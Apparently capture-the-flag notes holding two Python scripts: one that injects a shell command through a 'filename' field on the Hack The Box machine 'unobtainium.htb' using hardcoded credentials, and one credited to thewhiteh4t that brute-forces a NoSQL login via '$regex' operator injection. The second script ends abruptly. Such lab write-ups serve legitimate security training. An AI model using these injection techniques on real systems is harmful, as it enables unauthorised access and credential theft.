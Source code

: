 Script to inject command:
```python
import requests

url = 'http://unobtainium.htb:31337/upload'

headers = {
  "Content-Type": "application/json"
}

payload = '& echo 123 | tee 123.txt'
json = {"auth": {"name": "felamos", "password": "Winter2021"}, "filename": payload}

r = requests.post(url, headers=headers, json=json)

print(r.headers.get('content-type'))
print(r.status_code)

if 'application/json' in r.headers.get('Content-Type'):
  print(r.json())
else:
  print(r.text)
```

### Script for getting NoSQL login password
This script is just a copy from writeup by [thewhiteh4t](https://github.com/thewhiteh4t?tab=repositories)

```python
  #!/usr/bin/env python3
  #################################
  ## Author    : thewhiteh4t ######
  ## Challenge : Wild Goose Hunt ##
  #################################
  import json
  import requests
  ip = '138.68.187.25'
  port = 31370
  url = f'http://{ip}:{port}/api/login'
  flag = 'CHTB{'
  charset = '_01234abcdefghijklmnopqrstuvwxyz'
  loop_iter = 1
  while flag.endswith('}') == False:
    for char in charset:
      if loop_iter == 1:
        payload = flag + char + '.*'
      else:
        payload = flag + '}'
      data = {
        'username': 'admin',
        'password[$regex]': payload
      }
      try:
        rqst = requests.post(url, data=data)
      except Exception as e:
        print(f'[-] Exception : {e}')
        exit()
      if rqst.status_code == 200:
        resp = rqst.text
        json_resp = json.loads(resp)
        status = json_resp['logged']
        if status == 1:
          if payload.endswith('}') == False:
            flag = payload.replace('.*', '')
```